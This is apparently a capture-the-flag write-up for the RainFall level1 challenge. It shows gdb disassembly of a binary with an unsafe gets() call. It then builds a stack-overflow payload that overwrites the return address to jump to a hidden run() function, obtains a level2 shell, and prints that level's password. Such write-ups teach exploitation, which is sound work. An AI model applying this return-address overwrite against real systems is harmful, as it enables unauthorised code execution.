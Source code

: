 # Level1

Using gdb:

	(gdb) disas main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   %ebp
	   0x08048481 <+1>:	mov    %esp,%ebp
	   0x08048483 <+3>:	and    $0xfffffff0,%esp
	   0x08048486 <+6>:	sub    $0x50,%esp
	   0x08048489 <+9>:	lea    0x10(%esp),%eax
	   0x0804848d <+13>:	mov    %eax,(%esp)
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>
	   0x08048495 <+21>:	leave  
	   0x08048496 <+22>:	ret    
	End of assembler dump.

We can also find a function in the source code which is never used :

	(gdb) disas run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   %ebp
	   0x08048445 <+1>:	mov    %esp,%ebp
	   0x08048447 <+3>:	sub    $0x18,%esp
	   0x0804844a <+6>:	mov    0x80497c0,%eax
	   0x0804844f <+11>:	mov    %eax,%edx
	   0x08048451 <+13>:	mov    $0x8048570,%eax
	   0x08048456 <+18>:	mov    %edx,0xc(%esp)
	   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
	   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
	   0x0804846a <+38>:	mov    %eax,(%esp)
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
	   0x08048472 <+46>:	movl   $0x8048584,(%esp)
	   0x08048479 <+53>:	call   0x8048360 <system@plt>
	   0x0804847e <+58>:	leave  
	   0x0804847f <+59>:	ret    
	End of assembler dump.

This run() function is able to start a shell. The goal is to call this function within the main.
The gets function in the main is prone to buffer overflow attacks. Since we know the buffer size, we can start to craft a payload that will overwrite the EIP register (instruction pointer), to pass it the address of run. We can see its address is 0x08048444.

                        +---------------+ Highest Address 0xffffffff
                        | cmd line args |
                        | env Variable  |
                        +---------------+
                        |     STACK     |
                        +--+------------+
                        |  |            |
                        |  |            |
                        |  v         ^  |
                        |            |  |
                        |            |  |
                        +------------+--+
                        |     HEAP      |
                        +---------------+
                        | Uninitialized |
                        |   Data(BSS)   |
                        +---------------+
                        |  Initialized  |
                        |     Data      |
                        +---------------+
                        |   Read Only   |
                        |     data      |
                        |       +       |
                        |     code      |
                        +---------------+ Lowest Address 0X00000000



                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
	                   |     saved $ebp       |
	                   +----------------------+
		           |         $eip         |
	                   +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+
                       |                      |
                       |     unused space     |
                       +                      +

[source](https://github.com/rosehgal/BinExp/tree/master)

Let's first check the maximum size of the buffer: 

	$ python -c 'print("A"*70 + "BCDEFGHIJK")' > payload

Looking at the registers, we see :

	(gdb) r < payload
	Starting program: /home/user/level1/level1 < payload

	Program received signal SIGSEGV, Segmentation fault.
	0x4b4a4948 in ?? ()
	(gdb) info registers
	[...]
	esp            0xbffff740	0xbffff740
	ebp            0x47464544	0x47464544
	esi            0x0	0
	edi            0x0	0
	eip            0x4b4a4948	0x4b4a4948
	[...]

The value of EBP is 0x47464544, corresponding to the following ascii characters : G(47), F(46), E(45), D(44). 
The value of EIP is 0x4b4a4948, corresponding to the following ascii characters : H(48), I(49), J(4a), K(4b)
It makes sense since EIP typically follows EBP in the stack.
It means we can overwrite the EIP register using the 77-80th characters.
If we pass the address of the run function to EIP, it will be executed as the next instruction.

	python -c 'print "A"*76+"\x44\x84\x04\x08"' > payload // address in little endian order

By passing this payload as argument, the binary will start a shell. We also need to keep stdin open using 'cat -'.

	level1@RainFall:~$ cat payload - | ./level1 
	Good... Wait what?
	id
	uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
	cd ../level2
	cat .pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

